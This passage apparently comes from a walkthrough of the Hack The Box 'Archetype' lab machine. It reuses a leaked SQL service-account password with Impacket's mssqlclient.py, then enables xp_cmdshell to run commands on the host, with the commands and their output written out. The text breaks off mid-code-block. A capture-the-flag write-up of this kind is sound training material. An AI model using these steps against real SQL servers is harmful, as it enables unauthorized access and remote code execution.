 We see that it contains a SQL connection string, containing credentials
for the local Windows user **ARCHETYPE\\sql\_svc.**

Let's try connecting to the SQL Server using **Impacket's** mssqlclient.py
with the above credentials (pwd:**M3g4c0rp123** )
``` shell
  ------------------------------------------------------------------------------------------------------------------
  python3 /usr/share/doc/python3-impacket/examples/**mssqlclient.py** ARCHETYPE/sql\_svc@10.10.10.27 -windows-auth

  Password:
  
  \[\*\] Encryption required, switching to TLS
  
  \[\*\] ENVCHANGE(DATABASE): Old Value: master, New Value: master
  
  \[\*\] ENVCHANGE(LANGUAGE): Old Value: , New Value: us\_english
  
  \[\*\] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
  
  \[\*\] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
  
  \[\*\] INFO(ARCHETYPE): Line 1: Changed language setting to us\_english.
  
  \[\*\] ACK: Result: 1 - Microsoft SQL Server (140 3232)
  
  \[!\] Press help for extra shell commands
  
  SQL>

  ------------------------------------------------------------------------------------------------------------------
```
We can use the *IS\_SRVROLEMEMBER* function to reveal whether the
current SQL user has sysadmin (highest level) privileges on the SQL
Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable *xp\_cmdshell* and gain RCE(remote code
execution) on the host. Let's attempt this, by inputting the commands
below.
``` shell
  --------------------------------------------------------
  **EXEC sp\_configure 'Show Advanced Options', 1;**
  
  **reconfigure;**
  
  **sp\_configure;EXEC sp\_configure 'xp\_cmdshell', 1**
  
  **reconfigure;**
  
  **xp\_cmdshell "whoami"**
  --------------------------------------------------------
```
The whoami command output reveals that the SQL Server is also running in
the context of the user **ARCHETYPE\\sql\_svc**. However, this account
doesn't seem to have administrative privileges on the host.
``` shell
  --------------------------------------------------------------------------------------------------------------------------------------
  SQL>EXEC sp\_configure 'Show Advanced Options', 1;
  
  reconfigure;
  
  ....
```